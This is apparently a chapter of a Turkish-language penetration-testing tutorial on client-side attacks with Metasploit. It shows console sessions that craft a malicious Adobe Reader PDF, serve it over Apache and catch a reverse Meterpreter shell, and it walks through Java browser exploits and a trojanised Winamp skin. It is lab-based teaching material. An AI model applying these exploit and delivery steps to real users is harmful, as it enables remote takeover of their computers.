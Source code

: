 ### Client-side Exploitation

#### PDF Sızma
___

Portable Document Format (PDF) yazılımına da sızma yapılabilir. Eğer kullanıcıyı kötü amaçlı PDF dosyamızı güvenlik zaafiyeti olan uygulamada görmesine ikna edebilirsek, o programa sızabiliriz.

Windows sistemlerinde en yaygın kullanınan PDF uygulaması Adobe Reader. Web tarayıcıları gibi, Adobe Reader'in de güvenlik açıkları ile çevrili bir tarihi vardır. Gene web tarayıcılarında olduğu gibi paketli güncelleme yönetimi mevcut olsa bile, genelde güncelleme yapmayı ihmal ettiğimiz program türlerinden.

Bizim Windows XP makinemizde Adobe Reader'in eski 8.1.2 sürümü kurulu, bu sürümünde CVE-2008-2992 sorunu bulunmakta. Bu sorun amaçlı Metasploit modülümüz ise _exploit/windows/fileformat/adobe_utilprintf_. Bu modüle gireceğimiz değerler şu ana kadar gördüklerimizden biraz farklı. Bu kullanıcı taraflı bir saldırı olduğundan _RHOST_ gibi değerlere gerek yok. Modülün yaptığı görev ise kötü amaçlı bir PDF oluşturmak.

```ShellSession
msf > use exploit/windows/fileformat/adobe_utilprintf 
msf exploit(adobe_utilprintf) > show options

Module options (exploit/windows/fileformat/adobe_utilprintf):

    Name       Current Setting  Required  Description
    ----       ---------------  --------  ----------- 
    FILENAME   msf.pdf          yes       The file name.

Exploit target:
    Id  Name
    --  ----
    0  Adobe Reader v8.1.2 (Windows XP SP3 English)

msf exploit(adobe_utilprintf) > exploit [*] Creating 'msf.pdf' file...
[+] msf.pdf stored at /root/.msf4/local/msf.pdf
```

Gördüğünüz gibi, PDF exploit için gireceğimiz tek değer oluşturulacak zararlı PDF dosyası için isim. Onu da varsayılan değeri _msf.pdf_ olarak bırakabiliriz. Bu örneğimiz için Metasploit'in varsayılan _windows/meterpreter/reverse_tcp_ payload'nı 4444 portunda kullanacağız. __exploit__ çalıştırdığımızda, Metasploit bizim için Windows XP SP3 English sisteminde bulunan güvenlik zaafiyeti Adobe Reader için zararlı PDF dosyası oluşturacaktır. Dosyamız _/root/.msf4/local/msf.pdf dizininde kaydedilecek.

Payload için bir işleyici (handler) ayarlamamız gerekiyor:

```ShellSession
msf exploit(adobe_utilprintf) > cp /root/.msf4/local/msf.pdf /var/www 
[*] exec: cp /root/.msf4/local/msf.pdf /var/www

msf exploit(adobe_utilprintf) > service apache2 start 
[*] exec service apache2 start

Starting web server: apache2.

msf exploit(adobe_utilprintf) > use multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp 
payload => windows/meterpreter/reverse_tcp

msf exploit(handler) > set LHOST 192.168.20.9
lhost => 192.168.20.9

msf exploit(handler) > exploit
[*] Started reverse handler on 192.168.20.9:4444
[*] Sending stage (752128 bytes) to 192.168.20.10
[*] Meterpreter session 2 opened (192.168.20.9:4444 -> 192.168.20.10:1422) at 2015-05-05 20:26:15 -0400
```

Oluşturduğumuz dosyayı Apache sunucusuna atıyoruz, ve sunucuyu çalıştırıyoruz. Bu dosyayı sonradan anlatacağımız sosyal mühendislik yönteminde de kullanabiliriz, bir kişiye değilde birkaç kişiye göndereceğimizden _multi/handler_ modülünü kullandık. 

ExitOnSession varsayılan değerini false yaparak, oturum bilgisi aldığında dinleyicinin kapanmasını önleyebiliriz. Yani birkaç kullanıcı için, çoklu oturum açmış oluyoruz.

```ShellSession
msf exploit(handler) > show advanced 
Module advanced options:
--snip--
   Name           : ExitOnSession
   Current Setting: true
   Description    : Return from the exploit after a session has been created
msf exploit(handler) > set ExitOnSession false
ExitOnSession => false
msf exploit(handler) > exploit -j
[*] Exploit running as background job.
[*] Started reverse handler on 192.168.20.9:4444
[*] Starting the payload handler...
```

##### PDF Embedded Executable

PDF saldırıları için diğer bir yöntem ise; PDF içine zararlı çalışan bir script yerleştirmek. Bu amaçlı kullanacağımız Metasploit modülü ise _exploit/windows/fileformat/adobe_pdf_embedded_exe_. Programa direk açılışında sızma yerine, PDF açıldığında bir script için çalıştırabilme yetkisini isteyecek. Kullanıcı buna izin verdiği takdirde, işlemimiz başarıyla sonuçlanır.

![PDF](../resim/ataklar/client/pdf1.png)

Bu modül (1) önceden oluşturduğumuz scripti __EXANAME__ değeri ile tanımlayabilmemizi sağlar; (2) oluşturacağımız pdf dosyası ismini, (3) __INFILE__ değeri ile giriş PDFyi, (4) __LAUNCH MESSAGE__ ile izin isterken göstereceğimiz mesajı belirleriz.

Aşağıdaki gibi lazım olan değerleri girelim. Örneğimiz için Kali Linux'la gelen Metasploit kullanım klavuzunu kullanıyoruz, _/user/share/set/readme/User_Manual.pdf_ da bulunur. Sonrasında oluşturulan dosya, gene _/root/msf4/local/_ dizininde yer alacak.

![PDF](../resim/ataklar/client/pdf2.png)

Zararlı PDF dosyası açıldığında, kullanıcı aşağıdaki gibi bir uyarı alacak. Atağın bu çeşidi kullanıcın _Open_ tıklamasına bağlı. Kullanıcı _Open_ tıkladığı takdirde payload çalışır ve biz oturum bilgisi alırız.

![PDF](../resim/ataklar/client/pdf3.png)

#### Java Sızma
___

Java açıkları kullanıcı taraflı ataklar için yaygın bir alandır. Aslında, bazı uzmanlar Javanın bu açıklarından dolayı onun kaldırılmasını veya web tarayıcılarımızdan devre dışı bırakılmasını önermektedir.

Java saldırılarını güçlü kılan unsur ise, bir exploit çoklu platform için kullanılabilir. Windows, Mac hatda Linux sistemlerinde web tarayıcısı içinde çalışan Java Runtime Environment (JRE) aynı exploit ile sızılabilmekte. Bunlardan birkaçına bakalım:

Bir numara olarak, _exploit/multi/browser/java_jre17_jmxbean_ Metasploit modülünü kullanalım. Metasploit zararlı bir sunucu oluşturur, ve o sayfaya gelen herkese sızar. Java 7 sürümü 11. güncellemeden önceki hepsi etkilenir.

![JAVA](../resim/ataklar/client/java1.png)

Kendi çevremize göre değerleri belirliyoruz. _SRVHOST_ değerini şahsi yerel IP adresimiz; istersek _SRVPORT_'unda değiştirebiliriz; _URIPATH_ değerini hedefimizdeki tarayıcıda kolay yazabilecek bir değer atıyoruz.

Exploit'imiz çoklu platform desteklediğinden ve kod çalışma işlemi JRE içinde gerçekleştiği için, payload değerlerimiz Java tabanlıdır. Olagan şüphelilerin hepsi burda sıralınır inline payloads, staged payloads, bind shells, reverse shells, Meterpreter vb. Biz _java/meterpreter/reverse_http_ payloadını yasal HTTP trafiğini kullanıdığından onu seçiyoruz:

![JAVA](../resim/ataklar/client/java2.png)

Yukardaki değerler artık size tanıdık gelmesi lazım. _LPORT_ varsayılan değeri şimdi 4444 yerine 8080. Dikkat edersek _SRVPORT_ ve _LPORT_ değerlerinin ikisi de aynı olduğundan, en azından birini değiştirmemiz gerekir.

Değerleri atadıktan sonra, exploit sunucusunu başlatalım ve Windows 7 makinemizde o zararlı sayfayı ziyaret edelim. Internet Explorer da Mozilla Firefox ta Java eklentisi açık olduğu sürece bu açığın kurbanı olacaklardır.

Ek olarak PDF de kullanıcı onaylaması ile ilgili örnekte yaptığımız gibi Signed Java Applet _exploit/multi/browser/java_signed_applet_ kullanarak ta aynı mantık ile bir sızma yapılabilir. Mantık aynı. Çıktı olarak aşağıdaki gibi olacaktır:

![JAVA](../resim/ataklar/client/java3.png)

___ 

#### Winamp

Şimdiye kadar kullanıcı taraflı saldırılar aynı yöntem kullanmaktaydı. Biz zararlı bir dosya oluşturup kullanıcıdan güvenlik zaafiyeti olan programdan çalıştırmasını istiyorduk veya kullanıcıdan zararlı bir scripti çalıştırma onayını vermesini istiyorduk. Kullanıcı çalıştırdığında biz Metasploit oturumunu açıyorduk. Şimdi gelelim bir başka yönteme.

Bu örnekte, kullanıcıyı kandırarak Winamp ayar dosyasını nasıl değeştirebileceğine bakacağız. Kullanıcı programı açtığında, hangi şarkı söylerse söylesin zararlı ayar dosyası çalışmış olacaktır. Kullanacağımız Metasploit modülü _exploit/windows/fileformat/winamp_mali_bof_, Winamp 5.55 sürümünde buffer overflow sorununa sızma yapar.

Aşağıda gördüğünüz gibi, bu modüle girebileceğimiz herhangi bir değer yoktur. Bize lazım olan tek şey Windows payload. Bu modül Winamp teması (skin) için zararlı Maki dosyasını oluşturacak. 

![WINAMP](../resim/ataklar/client/winamp1.png)

Uyumlu bir Windows payload seçiyoruz. Zararli Maki dosyası oluşturulduktan sonra, Apache sunucusuna atıyoruz ve payload işlemcisini (handler) kuruyoruz. Şimdi biz bu zararlı dosyayı Winamp ta kullanabilecek duruma getirmemiz lazım. Winamp dosyasında bir tane tema dosyasını kopyalayıp yenisini oluşturalım. _mcvcore.maki_ dosyasını oluşturduğumuz zararlı dosya ile değiştiriyoruz. Temanın görünümü bizim için pek fark etmez, çünkü ne de olsa bizim Metasploite oturum bilgisini aktaracaktır.

Windows 7 sistemimizde, _C:\Program Files\Winamp\Skins_ dizininde bulunan Bento Winamp temasını Kalimize kopyalayalım. İsmini _Bento_ 'dan _Rocketship_ 'e değiştirelim. _Rocketship\scripts\mcvcore.maki_ dosyasını Metasploitte oluşturmuş olduğumuz zararlı dosya ile değiştiriyoruz. Sonra zipleyelim ve sunucuya atalım. 

Windows 7 sistemimize geçelim, we ziplemiş olduğumuz dosyayı indirelim ve Winamp tema dosyasına atalım.

![WINAMP](../resim/ataklar/client/winamp2.png)

Şimdi ise Winamp açalım, __Options > Skins__ gidelim ve __Rocketship__ seçelim. Zararlı temayı seçtiğimizde Winamp kapanmış gözükecektir ve biz Metasploitte oturumu almış olacağız.

![WINAMP](../resim/ataklar/client/winamp3.png)